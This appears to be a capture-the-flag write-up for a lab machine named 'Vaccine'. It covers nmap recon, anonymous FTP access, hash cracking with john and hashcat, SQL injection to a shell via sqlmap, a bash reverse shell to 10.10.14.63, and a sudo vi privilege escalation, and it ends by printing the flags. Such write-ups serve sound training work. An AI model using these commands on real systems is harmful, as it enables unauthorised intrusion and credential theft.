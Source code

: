 ```yaml
---
layout: default
title: Vaccine
---
```


## TL;DR

First we login anonymously to `ftp` server, and grab the backup file. From this we get the has of admin password and crack it. Then, after login to portal, we use `SQL Injection` to get reverse shell using `sqlmap`. We escalate to root using `vi`, known PE exploit.

### Recon

first we starts with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap](image.png)

As we can see, there are 3 open ports, port `21` for ftp, port `22` for ssh, and port `80` for http.
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.63
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Login anonymously to ftp

We can see we can login anonymously to ftp, and download the `backup.zip` from there, using the `get` command.
```bash
ftp anonymous@$target
```

![download backup.zip](image-1.png)

### Extract files from backup.zip

When we try to unzip `backup.zip` using the command `unzip backup.zip`, we can see it asks for a password. 
Let's try to crack it using *john the ripper*.

First, we need to transfroms it from `zip` to `hash`, using the command:
```bash
zip2john backup.zip > hashes
```

Then, we can crack it using john:

```bash
john hashes
```

At the end, we can reveal the password using the flag `--show`, like in *hashcat*.
The password is `741852963`.

![get password for zip](image-2.png)

### Crack the admin password for the login portal

Now, after we unzip the password protected zip, we can see there are two files, `index.php` and `styles.css`. 
When we read the `index.php`, we can see these lines:

![read index.php](image-3.png)
So, the username for the login portal on the webserver is `admin`, and the md5 hash of the password is `2cb42f8734ea607eefed3b70af13bbd3`.

We can use `hashcat` to crack the password, the `-m 0` flag is to specify the hash type, which is md5, and the `-a 0` is to specify the attack type, which is dictionary attack.
```bash
hashcat -a 0 -m 0 2cb42f8734ea607eefed3b70af13bbd3 -O  /usr/share/wordlists/rockyou.txt
``` 
And we get the password:
```bash
2cb42f8734ea607eefed3b70af13bbd3:qwerty789
```

So, let's login:

![logged in](image-4.png)

### Using Sql Injection to get shell

When we give the search this value `'` we get error, this line:
```bash
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
```
using `sqlmap` we can see it is vulnerable to sql injection. We can use the `--os-shell` flag to get shell over the machine, this is the command, we use `--batch` to avoid all the questions. Don't forget to supply your cookie, you need to be authenticated as an admin.
```bash
sqlmap -u http://$target/dashboard.php?search=* --cookie="PHPSESSID=rofujd2i9ic630lkm78a1g3llf" --batch --os-shell
```
Okay, first we want to achieve the reverse shell, using this command:
```bash
bash -c "/bin/sh -i >& /dev/tcp/10.10.14.63/770 0>&1"
```

Then, we'll paste those commands in the shell we got:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

Search for `user.txt` using this command:
```bash
find / -name "user.txt" 2>/dev/null
```

and reading the user flag from `/var/lib/postgresql/user.txt` 
```bash
postgres@vaccine:~$ find / -name "user.txt" 2>/dev/null
/var/lib/postgresql/user.txt
postgres@vaccine:~$ cat /var/lib/postgresql/user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```

We remember there is a webserver on port `80`, so we can go to `/var/www/html` and view the content the `.php` files, maybe we'll find some credentials:
```bash
postgres@vaccine:/var/www/html$ ls
bg.png  dashboard.css  dashboard.js  dashboard.php  index.php  license.txt  style.css
postgres@vaccine:/var/www/html$ cat dashboard.php
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Admin Dashboard</title>

<REDACTED>

$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

alright, the password for the user `postgres` is `P@s5w0rd!`, we can use it to connect via `ssh`, as we saw in the beginning that port `22` is open:
```bash
ssh postgres@$target
```

### Escalate privilege

After connecting via `ssh`, we start looking for PE. First, we'll check for commands we can run as an root, using:
```bash
sudo -l
```

![sudo -l](image-5.png)

As we can see, we can execute only one command as root:
```bash
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Okay, so let's run this command:
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

We can go to GTFobins, to this link [https://gtfobins.github.io/gtfobins/vi/#sudo](https://gtfobins.github.io/gtfobins/vi/#sudo), and see this:
```
It can be used to break out from restricted environments by spawning an interactive system shell.
```

```bash
:set shell=/bin/sh
:shell
```

Let's execute those commands, inside the `vi`, 
we managed to spawn a shell as root, :) 

```sh
# id
uid=0(root) gid=0(root) groups=0(root)
# find / -name "root.txt" 2>/dev/null
/root/root.txt
# cat /root/root.txt
dd6e058e814260bc70e9bbdef2715849
# 
```

![root flag](image-6.png)

**User Flag:*****`ec9b13ca4d6229cd5cc1e09980965bf7`***

**Root Flag:*****`dd6e058e814260bc70e9bbdef2715849`***
